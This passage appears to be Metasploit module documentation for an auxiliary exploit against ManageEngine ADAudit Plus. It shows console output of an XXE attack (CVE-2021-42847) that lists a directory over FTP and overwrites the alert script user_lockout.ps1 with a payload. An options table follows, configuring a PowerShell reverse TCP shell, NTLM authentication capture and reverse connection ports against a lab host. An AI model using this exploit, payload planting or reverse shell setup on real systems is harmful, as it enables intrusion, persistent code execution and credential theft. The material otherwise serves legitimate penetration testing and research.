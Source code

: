 ```
[*] Found the ADAudit Plus installation folder at /Program Files/ManageEngine/ADAudit Plus/.
[*] XXE_VECTOR is CVE-2021-42847. Sleeping 5 seconds before proceeding to ensure the duplicate requests for /Program Files/ManageEngine/ADAudit Plus/ have been processed
[*] Checking for existing alert scripts at /Program Files/ManageEngine/ADAudit Plus/alert_scripts/
[*] Getting contents for /Program Files/ManageEngine/ADAudit Plus/alert_scripts/ via XXE and FTP
[*] Using URL: http://192.168.91.195:8080/AnjjjwMR.dtd
[*] Confirmed that user_lockout.ps1 exists in /alert_scripts
[*] Attempting to overwrite the alert script user_lockout.ps1 with the payload
[+] Successfully wrote the payload to user_lockout.ps1
[*] Auxiliary module execution completed
```

### TRIGGER_NTLM_AUTH
```
msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > options 

Module options (auxiliary/admin/http/manageengine_adaudit_plus_file_read_write):

   Name              Current Setting   Required  Description
   ----              ---------------   --------  -----------
   ALERT_SCRIPT                        no        Name of an existing PowerShell script in /alert_scripts to overwrite when using OVERWRITE_ALERT_SCRIPT
   CUSTOM_PAYLOAD                      no        Custom payload to use for WRITE_FILE and OVERWRITE_ALERT_SCRIPT. Ignored if USE_MSF_PAYLOAD is true
   DOMAIN                              no        Active Directory domain that the target monitors, Required if XXE VECTOR is CVE-2022-28219
   FILE_OR_DIR_PATH  /windows/win.ini  no        Path to read or write to. For read operations this should contain forward slashes and exclude the drive
   LHOST             192.168.91.195    no        The local IP address to use for write operations with USE_MSF_PAYLOAD, or for receiving NTLM auth requests (TRIGGER_NTLM_AUTH)
   LOAD_MODULES                        no        A list of powershell modules separated by a comma to download over the web
   LPORT             4444              no        The listening port to use when using USE_MSF_PAYLOAD
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            192.168.91.250    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             8081              yes       The target port (TCP)
   SRVHOST           192.168.91.195    yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresse
                                                 s.
   SRVPORT           8080              yes       The local port to listen on.
   SRVPORT_FTP       2121              yes       Port for FTP reverse connection
   SRVPORT_HTTP2     8888              yes       Port for additional HTTP reverse connections
   SSL               false             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                             no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI         /                 yes       The base path to ManageEngine ADAudit Plus
   URIPATH                             no        The URI to use for this exploit (default is random)
   USE_MSF_PAYLOAD   true              no        Use the cmd/windows/powershell_reverse_tcp payload for WRITE_FILE and OVERWRITE_ALERT_SCRIPT.
   VHOST                               no        HTTP server virtual host
   XXE_VECTOR        CVE-2021-42847    no        XXE vector for obtaining file contents/directory listings (CVE-2022-28219 or CVE-2021-42847)


Auxiliary action:

   Name               Description
   ----               -----------
```